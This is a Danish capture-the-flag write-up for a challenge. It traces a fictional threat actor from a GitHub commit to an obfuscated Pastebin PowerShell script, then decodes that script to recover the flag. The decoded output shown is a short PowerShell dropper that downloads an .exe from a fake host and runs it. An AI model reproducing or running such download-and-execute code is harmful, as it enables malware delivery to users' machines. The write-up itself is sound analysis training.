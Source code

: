 Hvordan er det reelle payload hentet ned og hvorfra? Kan du finde andre payloads, der kan hjælpe os til at koble aktøren på andre sager og måske endda komme dem i forkøbet?

Din analyse fra Nisseware: Phishing vil være en hjælp, men er ikke nødvendig for at løse opgaven.

---

1. Googler "N1ss3b4nd3n"
2. Finder GitHub: https://github.com/N1ss3b4nd3n/N1ss3b4nd3n
3. kigger i commits på README.md
4. Commit [48fb3b4](https://github.com/N1ss3b4nd3n/N1ss3b4nd3n/commit/48fb3b4b295eb7486289e21efa8dbe84fecabe31) har dette pastebin link: https://pastebin.com/raw/CiZTV3BA
5. Downloader pastebin siden som [powershell_code.ps1](powershell_code.ps1) fil og
erstatter `Invoke-Expression -Command ([System.Text.Encoding]::UTF8.GetString($script))`
med `echo [System.Text.Encoding]::UTF8.GetString($script)`

6. Så får jeg en lang liste af tal som jeg gemmer som [chars.txt](chars.txt)
7. Jeg skriver [app.py](app.py) hvor jeg looper gennem alle tal fra [chars.txt](chars.txt) og
bruger Pythons `chr()` function til at lave tal om til bogstaver fordi de matcher unicodes.

8. [app.py](app.py) printer dette ud:
```ps1
$fileUrl = "http://321.123.f4k3.1337/megetfarligfil.exe&token=NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}"
$client = New-Object System.Net.WebClient
$client.DownloadFile($fileUrl, (Get-Location).Path + "\download.exe")
Start-Process (Get-Location).Path + "\download.exe"
```
i `$fileUrl` kan man se at GET parameteret "token" indenholder flaget -> `NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}`

Flag: `NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}`